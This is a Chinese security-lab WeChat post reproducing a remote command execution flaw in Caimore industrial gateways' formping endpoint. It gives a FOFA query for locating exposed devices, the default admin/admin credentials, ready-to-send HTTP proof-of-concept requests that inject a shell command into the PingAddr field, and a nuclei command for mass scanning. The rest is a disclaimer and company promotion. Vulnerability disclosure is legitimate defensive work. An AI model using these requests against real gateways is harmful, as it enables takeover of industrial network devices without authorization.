 #  漏洞复现 才茂通信 网关 formping 远程命令执行漏洞

by 融云安全-sm  [ 融云攻防实验室 ](javascript:void\(0\);)

**融云攻防实验室** ![]()

微信号 gh_0dba7ff3f653

功能介绍 网络安全舆情快报

____

___发表于_

收录于合集

#漏洞复现 272 个

#才茂通信 1 个

**0x01  漏洞描述**

厦门才茂网关，采用开放式软件架构设计，是一款金属外壳设计，带4路千兆LAN、1路千兆WAN，采用 3G/4G/5G
广域网络上网通信的工业级设计无线网关，支持2.4GWiFi和5.8GWiFi。厦门才茂网关系统formping存在命令执行漏洞，攻击者通过漏洞可以执行任意命令，导致服务器失陷。![]()

 **0x02  漏洞复现**

 **fofa** **：** app="CAIMORE-Gateway"

1.弱口令admin-admin登录，通过漏洞执行ls命令，得到回显

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POC1:POST /goform/formping HTTP/1.1Host: {{Hostname}}User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36Connection: closeContent-Length: 63Authorization: Basic YWRtaW46YWRtaW4=Accept-Encoding: gzip  
    PingAddr=127.0.0.1%7Cecho%20hellocaimao&PingPackNumb=1&PingMsg=  
    POC2:GET /pingmessages HTTP/1.1Host: {{Hostname}}User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36Connection: closeAuthorization: Basic YWRtaW46YWRtaW4=Accept-Encoding: gzip

![]()

![]()

2.nuclei验证脚本已发表于知识星球 ****

  * 

    
    
    nuclei.exe -t caimao-gateway-formping-rce.yaml -l subs.txt -stats

![]()

 **(注：本文章为技术分享，禁止任何非授权攻击行为** **)**

  

 **** **网络安全神兵利器分享** **网络安全漏洞N/0day分享** **    加入星球请扫描下方二维码，更多精，敬请期待！**👇👇👇

![]()

 **0x04   ** **公司简介******

江西渝融云安全科技有限公司，2017年发展至今，已成为了一家集云安全、物联网安全、数据安全、等保建设、风险评估、信息技术应用创新及网络安全人才培训为一体的本地化高科技公司，是江西省信息安全产业链企业和江西省政府部门重点行业网络安全事件应急响应队伍成员。  
    公司现已获得信息安全集成三级、信息系统安全运维三级、风险评估三级等多项资质认证，拥有软件著作权十八项；荣获2020年全国工控安全深度行安全攻防对抗赛三等奖；庆祝建党100周年活动信息安全应急保障优秀案例等荣誉......

 **编制：sm**

 **审核：fjh**

 **审核：Dog**

 **  
**

 ** **1个![]()** 1朵 ** ** ** ** ** **![]()************** **** **5毛钱**

 **天天搬砖的小M**

 **能不能吃顿好的**

 **就看你们的啦**

 ** **![]()****

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

